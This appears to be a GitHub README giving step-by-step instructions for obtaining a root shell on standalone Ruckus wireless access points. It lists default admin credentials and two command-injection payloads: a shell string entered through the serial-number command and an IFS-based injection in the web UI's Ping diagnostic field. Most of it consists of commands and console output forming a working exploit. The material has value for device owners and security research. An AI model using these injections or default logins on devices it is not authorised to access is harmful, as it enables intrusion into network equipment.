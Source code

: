 # Obtaining a root shell on Standalone/Solo Ruckus APs

The Ruckus CLI includes an unlisted `!v54!` command which exits to a root shell.  

Very old AP firmware checks a configuration flag `cli_esc2shell_ok` to decide whether the `!v54!` command is available.  
Newer AP firmware decrypts a saved serial# to check whether the `!v54!` command is available. The `Ruckus` command is used to save the encrypted serial#.

## Firmware >112.1

Sorry, I don't have a method to bypass the serial# check on newer Standalone/Solo AP firmwares

## Firmware 9.8 - 112.1

These AP firmware versions don't sanitize the serial# you provide with the `Ruckus` command.  
So we can inject a root shell.
> Note that the command injection only needs to be performed once.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa
```

Login. Default username is "super", password is "sp-admin".

### Command injection

```console
rkscli: Ruckus
```

Now type `";/bin/sh;"` and hit enter *(you won't be able to see what you're typing)*

```console
grrrr
```

> Instead of `grrrr`, any other random dog noise could  be printed to the screen. 

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$
```

You have a root shell.

## Firmware Pre-9.8

These AP firmware versions don't sanitize the input to the `Ping` diagnostic tool.
So we can use `Ping` to enable `cli_esc2shell_ok`.
> Note that the `Ping` enablement only needs to be performed once.

### Enable shell escape

Go to `Administration` > `Diagnostics`, paste `|rpm${IFS}-p${IFS}cli_esc2shell_ok="t"` into the `Ping:` textbox & hit `Run test`.

### Connect to the AP's Web UI

Login. Default username is "super", password is "sp-admin".

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa
```

Login. Default username is "super", password is "sp-admin".

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$
```

You have a root shell.
